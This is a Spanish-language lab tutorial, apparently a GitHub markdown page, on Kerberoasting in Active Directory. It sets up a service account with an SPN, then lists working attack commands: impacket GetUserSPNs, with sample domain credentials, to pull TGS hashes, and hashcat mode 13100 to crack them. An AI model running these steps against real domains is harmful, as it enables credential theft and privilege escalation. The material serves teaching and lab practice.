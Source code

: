 # Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva putualiza en el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen ser contraseñas débiles al no ser accedidas constantemente por algún usuario y para recordar más fácil se evita suelen usar contraseñas fáciles, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas concernientes.
> 

Viendolo así darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debimos haber tenido acceso a una cuenta de usuario del dominio previamente.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```

![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)

En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   

![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)

Luego hacemos clic en el icono de usuario en la barra superior. 

![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)

Indicamos la información correspondiente y damos clic en siguiente.

![Untitled](images/Untitled%201.png)

Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.

![Untitled](images/Untitled%202.png)

Y finalizamos.

![Untitled](images/Untitled%203.png)

Como podemos ver, el usuario se ha creado satisfactoriamente.

![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)

Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```

![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)

# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.

![Untitled](images/Untitled%204.png)

Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```

![Untitled](images/Untitled%205.png)